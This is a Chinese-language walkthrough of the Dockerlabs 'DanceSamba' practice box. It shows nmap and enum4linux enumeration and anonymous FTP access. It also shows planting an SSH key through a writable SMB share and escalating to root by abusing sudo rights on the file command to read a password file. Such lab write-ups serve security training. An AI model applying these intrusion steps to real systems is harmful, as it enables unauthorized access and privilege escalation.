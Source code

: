 ```yaml
---
title: "Dockerlabs-DanceSamba"
date: 2025-02-21
categories: 
  - "dockerlabs"
tags: 
  - "dockerlabs"
  - "linux"
---
```


## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Medium |

## Nmap

```
[root@kali] /home/kali/dance-samba  
❯ nmap 172.17.0.2 -sV  -A

PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r-- 1 0        0              69 Aug 19  2024 nota.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 a2:4e:66:7d:e5:2e:cf:df:54:39:b2:08:a9:97:79:21 (ECDSA)
|_  256 92:bf:d3:b8:20:ac:76:08:5b:93:d7:69:ef:e7:59:e1 (ED25519)
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
MAC Address: 02:42:AC:11:00:02 (Unknown)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-time: 
|   date: 2025-02-21T12:45:31
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

TRACEROUTE
HOP RTT     ADDRESS
1   0.11 ms 172.17.0.2

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.37 seconds
```

## enum4linux

![](./images/image-59.png)

![](./images/image-58.png)

找到用户名：**macarena**

## FTP FileLeak

尝试**FTP**匿名登录，得到一个留言

```
[root@kali] /home/kali/dance-samba  
❯ ftp 172.17.0.2                                                                                                                                          ⏎
Connected to 172.17.0.2.
220 (vsFTPd 3.0.5)
Name (172.17.0.2:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||60425|)
150 Here comes the directory listing.
-rw-r--r-- 1 0        0              69 Aug 19  2024 nota.txt
226 Directory send OK.
ftp> get nota.txt
local: nota.txt remote: nota.txt
229 Entering Extended Passive Mode (|||13977|)
150 Opening BINARY mode data connection for nota.txt (69 bytes).
100% |***************************************************************************************************************|    69      556.88 KiB/s    00:00 ETA
226 Transfer complete.
69 bytes received in 00:00 (90.81 KiB/s)
ftp> exit
221 Goodbye.

[root@kali] /home/kali/dance-samba  
❯ ls
auto_deploy.sh  dance-samba.tar  dance-samba.zip  nota.txt

[root@kali] /home/kali/dance-samba  
❯ cat nota.txt    

I don't know what to do with Macarena, she's obsessed with donald.
```

看来**macarena**很喜欢**donald**，或许会把他的名字作为密码呢？

尝试进入**smb**服务获取到了**user.txt**

![](./images/image-60.png)

## Root

使用smbmap可以看到具有写入权限

![](./images/image-61.png)

看起来这个smb服务的目录是直接连接到**/home/macarena**的，因此可以尝试创建一个**.ssh**目录，并且上传到里面的**authorized\_keys**。这里我的**id\_rsa.pub**是之前就用过的，这里就不重新生成了

```
smb: \> mkdir .ssh
smb: \.ssh\> put id_rsa.pub authorized_keys
```

![](./images/image-62.png)

在**home**文件夹下发现一个**secret**

![](./images/image-63.png)

![](./images/image-64.png)

得到密码：`supersecurepassword`，当然这不是**root**的密码，不过可以看到**macarena**的特殊命令

```
macarena@2ee34abfffe4:/home/secret$ sudo -l
[sudo] password for macarena: 
Matching Defaults entries for macarena on 2ee34abfffe4:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User macarena may run the following commands on 2ee34abfffe4:
    (ALL : ALL) /usr/bin/file
```

可以参考👇

- [File | GTFOBins](https://gtfobins.github.io/gtfobins/file/)

我尝试读取了**root**的**ssh**密钥，结果失败了，在**/opt**目录下发现一个**root**权限的**password.txt**，刚好可以配合**file**命令进行读取，密码为：**rooteable2**

![](./images/image-65.png)

提升用户为**root**即可

![](./images/image-66.png)

## Summary

`User`：**ftp**的匿名登陆泄露文件，再通过**smb**读取到**user.txt**

`Root`：一个比较特殊的点就是，**macarena**的**smb**目录似乎就是他的家目录，因为可以看到**bashrc**、**profile**等特定文件。因此可以写入**ssh**密钥后登录。在**/home/secret**目录下拿到**macarena**的密码，随后可以进行**sudo**查看命令。期间我尝试过读取**/root/root.txt**和**/root/.ssh/id\_rsa**等，但是**root**用户并没有配置**ssh**密钥。幸好在**/opt**目录下有不可读的密码文件，可以通过**file**命令读取，成功提权。
